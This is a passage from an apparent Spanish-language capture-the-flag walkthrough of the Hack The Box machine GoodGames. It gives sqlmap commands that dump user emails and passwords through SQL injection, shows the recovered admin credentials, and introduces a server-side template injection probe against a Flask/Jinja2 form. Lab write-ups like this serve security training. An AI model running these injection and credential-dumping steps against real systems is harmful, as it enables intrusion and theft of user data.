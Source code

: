 En el panel de configuración nos lleva a la siguiente página: http://internal-administration.goodgames.htb/index. Esto implica hacer un pequeño en nuestro archivo `/etc/hosts` con el comando `sudo nano /etc/hosts` para poder acceder ya que requiere de resolución DNS.

```
127.0.0.1       localhost
127.0.1.1       blackbox
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.11.130    goodgames.htb internal-administration.goodgames.htb
```

Podemos reutilizar la petición anteriormente utilizada:

```
POST /login HTTP/1.1
Host: 10.10.11.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://10.10.11.130
Connection: keep-alive
Referer: http://10.10.11.130/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=admin%40goodgames.htb&password=admin
```

Para ponerlo en un archivo `.req` y pasarlo por `sqlmap`:

`sqlmap -r goodgames.req --dbs`
`sqlmap -r goodgames.req -D main --tables`
`sqlmap -r goodgames.req -D main -T user --columns`
`sqlmap -r goodgames.req -D main -T user -C email,password --dump`

Esto nos dará las credenciales de acceso:

`admingoodgames.htb:superadministrator`

Si recordamos, anteriormente mencioné que llamaba la atención el uso de Flask para desarrollo Web. Normalmente, se hace uso de motores de plantilla como jinja2 entre otros conjuntamente con Flask para el desarrollo web. Esto, aunque no siempre, puede derivar en ataques SSTI.

Un ataque SSTI es cuando se explota la sintaxis nativa de una plantilla (como jinja2) para inyectar código malicioso de manera que se ejecute posteriormente en el lado servidor. Por eso se llama Server-Side Template Injection (SSTI).

Entonces buscamos algún input field o algún campo que como usuario, tenga capacidad de escribir.

Abrimos Burpsuite e interceptamos la petición, modificando el valor de test por `{{7*7}}`:
